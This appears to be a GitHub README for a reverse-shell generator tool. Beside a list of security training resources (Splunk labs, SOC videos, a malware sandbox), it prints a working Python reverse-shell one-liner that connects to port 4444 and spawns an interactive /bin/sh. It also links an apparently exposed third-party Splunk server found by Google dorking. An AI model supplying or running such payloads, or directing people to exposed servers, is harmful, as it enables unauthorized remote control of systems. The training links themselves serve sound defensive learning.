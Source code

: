 # Reverse-Shell-Generator

<div align="center">
</div>

![3](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExb2RmbnpoZ2Y5c3MxdnU1ajk5ZGU5MDN3YzNhaHR4Z3o2ZGN6aGVucCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/fdOA43sHFE6Pu/giphy.gif)

</div>

## Link
```
https://devvj-1.github.io/Reverse-Shell-Generator/
```

## 🔧 Linux  Troubleshooting commands 
```
https://chatgpt.com/share/74ea2fe2-6b6d-400e-bfee-1a434763a162
```

## Python payload 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Screenshot 2024-06-08 015037](https://github.com/DevVj-1/Reverse-Shell-Generator/assets/106962581/13b0947b-d1bd-43af-bb1b-b9a2fc6063e2)

## Setup rootless kali Nethunter on Android

https://youtu.be/fqaSEbaYkJQ?si=b8u3mB2aq8Y4C9Hk

Some how i discovered a cyber security course hands-on cloud labs. so i share it here too! with you guys :)
(Just randomly discovered links while Google dorking)

## Splunk labs

""

👏🏻 I really grateful and appreciative to the creator of this course (Sam Boney, Sir) for creating this cloud hands-on labs and other informative content. 💡

In exchange for what we learn from this resource. We should subscribe ❤️ to his YouTube channel (https://www.youtube.com/channel/UCC2OBhIt1sHE4odV05RYP1w)

""
* all Splunk labs: https://samsclass.info/50/50_S19.shtml#quiz

* Boss of the SOC v1: Threat Hunting with Splunk:
  https://samsclass.info/50/proj/botsv1.htm
* Proj 1x: BOSS OF THE SOC: Finding Attack Servers:
  https://samsclass.info/50/proj/p1xbots.htm
* Random splunk server: http://172.218.49.49:8000/en-US/manager/search/adddatamethods/selectsource?input_mode=0

### Splunk SIEM Crash Course | Free Spunk Training for Security Analyst:
* https://youtu.be/LbR5cqqaFVk?si=DzuR70M_1Ld6Jx6g
  
## other labs

* https://attack.samsclass.info/

## CBL
* https://samsclass.info/129S/proj/CBL.htm

## CNIT
* https://samsclass.info/129S/proj/p10token.htm

## Top 10 Soc analyst hands on labs.

link:https://youtu.be/G5sCK6IU3nU?si=r9Br6pag8HZeiUGK

## Sandbox for Malware forensics !

![any_run4_Forensics](https://github.com/user-attachments/assets/9d7d3729-a16f-4214-8803-6b87a1ff3f1d)

ANY. RUN is a service that allows cybersecurity specialists to detect, analyze, and monitor cybersecurity threats. It is the interactive online malware analysis sandbox, where the user controls the flow of the analysis.

```
https://app.any.run/
```
